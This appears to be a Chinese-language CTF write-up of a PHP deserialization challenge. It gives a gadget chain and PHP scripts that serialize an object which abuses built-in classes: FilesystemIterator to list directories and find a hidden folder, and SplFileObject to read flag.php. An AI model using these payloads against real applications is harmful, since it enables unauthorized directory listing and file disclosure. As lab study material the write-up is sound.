 通过审计，发现链子为

```plain
A::__constuct->C::vaild->A::__wakeup()
```

我们不能使用特殊字符，可以利用字母和数字进行操作，而且可以看到

```plain
echo new  $this->class ($this->para);
```

可以通过 echo 调用内置类中的\_\_toString()，从而利用 php 内置类，所以我们可以使用 PHP 内置类

先遍历目录

```plain
<?php
class A{
    public $class='FilesystemIterator';
    public $para='/var/www/html';
    public $check;
}
$a=new A();
echo urlencode(serialize($a));
```

遍历得到**aMaz1ng\_y0u\_coUld\_f1nd\_F1Ag\_hErE**

继续遍历

```plain
<?php
class A{
    public $class='FilesystemIterator';
    public $para='/var/www/html/aMaz1ng_y0u_coUld_f1nd_F1Ag_hErE';
    public $check;
}
$a=new A();
echo urlencode(serialize($a));
```

得到 flag.php，之后结合 SplFileObject 类进行读取

```plain
<?php
class A{
    public $class='SplFileObject';
    public $para='/var/www/html/aMaz1ng_y0u_coUld_f1nd_F1Ag_hErE/flag.php';
    public $check;
}
$a=new A();
echo urlencode(serialize($a));
```

# GlobIterator，DirectoryIterator,FilesystemIterator:遍历目录
